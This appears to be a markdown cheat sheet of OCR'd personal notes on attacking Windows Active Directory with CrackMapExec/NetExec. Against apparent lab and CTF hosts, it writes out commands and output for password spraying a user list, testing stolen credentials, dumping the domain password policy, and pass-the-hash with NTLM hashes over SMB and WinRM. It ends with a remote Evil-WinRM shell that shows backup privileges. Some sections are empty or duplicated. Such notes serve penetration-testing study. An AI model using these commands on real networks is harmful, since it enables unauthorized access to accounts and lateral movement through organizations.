 - [Installation](#installation)
- [TL;DR](#tldr)
- [Test Credential](#test-credential)
- [Dump Password Policy with "--pass-pol"](#dump-password-policy-with---pass-pol-1)
- [Pass-the-Hash (PtH) with "-H"](#pass-the-hash-pth-with--h--successful)

## [Installation](#installation-1)
```sh
python3 -m pip install pipx
git clone https://github.com/mpgn/CrackMapExec
cd CrackMapExec
pipx install .
```

## [TL;DR](#tldr-1)
```sh
cme smb $ip -u users.txt -p sT333ve2
cme smb $ip -u users.txt -p sT333ve2 --continue-on-success
```

## [Test Credential](#test-credential-1)
```sh
PS C:\Users\fcastle> whoami
marvel\fcastle
PS C:\Users\fcastle> .\nxc.exe smb 10.1.1.6 -u fcastle -p Password1
SMB         10.1.1.6        445    PUNISHER         [*] Windows 10.0 Build 19041 x64 (name:PUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.1.1.6        445    PUNISHER         [+] MARVEL.local\fcastle:Password1 (Pwn3d!)

PS C:\Users\fcastle> .\nxc.exe smb 10.1.1.6 -u pparker -p Password2
SMB         10.1.1.6        445    PUNISHER         [*] Windows 10.0 Build 19041 x64 (name:PUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.1.1.6        445    PUNISHER         [+] MARVEL.local\pparker:Password2
PS C:\Users\fcastle>

PS C:\Users\fcastle> .\nxc.exe smb 10.1.1.6 -u pparker -p Wr0n9
SMB         10.1.1.6        445    PUNISHER         [*] Windows 10.0 Build 19041 x64 (name:PUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.1.1.6        445    PUNISHER         [-] MARVEL.local\pparker:Wr0n9 STATUS_LOGON_FAILURE
PS C:\Users\fcastle>
```

## [Dump Password Policy with "--pass-pol"](#dump-password-policy-with---pass-pol)
```sh   Syntax  cme smb $ip -u support -p '#00^BlackKnight' --pass-pol
cme smb $ip -u support -p '#00^BlackKnight' --pass-pol
```

```sh   Example
$ cme smb $ip -u support -p '#00^BlackKnight' --pass-pol
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [+] Dumping password info for domain: BLACKFIELD
SMB         10.10.10.192    445    DC01             Minimum password length: 7
SMB         10.10.10.192    445    DC01             Password history length: 24
SMB         10.10.10.192    445    DC01             Maximum password age: 41 days 23 hours 53 minutes
SMB         10.10.10.192    445    DC01
SMB         10.10.10.192    445    DC01             Password Complexity Flags: 000001
SMB         10.10.10.192    445    DC01                 Domain Refuse Password Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.10.192    445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password Complex: 1
SMB         10.10.10.192    445    DC01
SMB         10.10.10.192    445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.10.10.192    445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.10.10.192    445    DC01             Locked Account Duration: 30 minutes 
SMB         10.10.10.192    445    DC01             Account Lockout Threshold: None
SMB         10.10.10.192    445    DC01             Forced Log off Time: Not Set
```

## [Pass-the-Hash (PtH) with "-H"](#pass-the-hash-pth-with--h--successful)
cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

## Pass-the-Hash (PtH) with "-H" ; Successful
```sh
$ cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

## [Pass the hash (PtH)](https://attack.mitre.org/techniques/T1550/002/)
> Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password.

## [WINRM Pwn3d!](#winrm-pwn3d-2)
cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

## [WINRM Pwn3d!](#winrm-pwn3d-2)
cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

## [PtH with evil-winrm](#pth-with-evil-winrm-1)
evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d


```
--continue-on-success
                        continues authentication attempts even after successes
```


## CrackMapexec v5.4.0 (2023.1-3) doesn't work well. Update latest version manually
```sh
$ cat /etc/os-release 
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
VERSION_ID="2023.3"
VERSION="2023.3"
...
```

## Installation

https://github.com/mpgn/CrackMapExec

https://wiki.porchetta.industries/getting-started/installation

https://wiki.porchetta.industries/getting-started/installation/installation-on-unix

```

```

## 
```sh

```

## Examples


## Pass-the-Hash (PtH) with "-H" ; STATUS_LOGON_FAILURE
```sh
$ cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE
```



## WINRM Pwn3d!
```sh
$ cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

## [PtH with evil-winrm](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
```sh
$ evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

## 
```sh

```

https://pypi.org/project/crackmapexec/

# CrackMapexec | SMB & AD Enumeration Simplified !]
https://systemweakness.com/crackmapexec-smb-ad-enumeration-simplified-21e603927f44

https://wiki.porchetta.industries/

https://ptestmethod.readthedocs.io/en/latest/cme.html

https://github.com/Porchetta-Industries/CrackMapExec/wiki/SMB-Command-Reference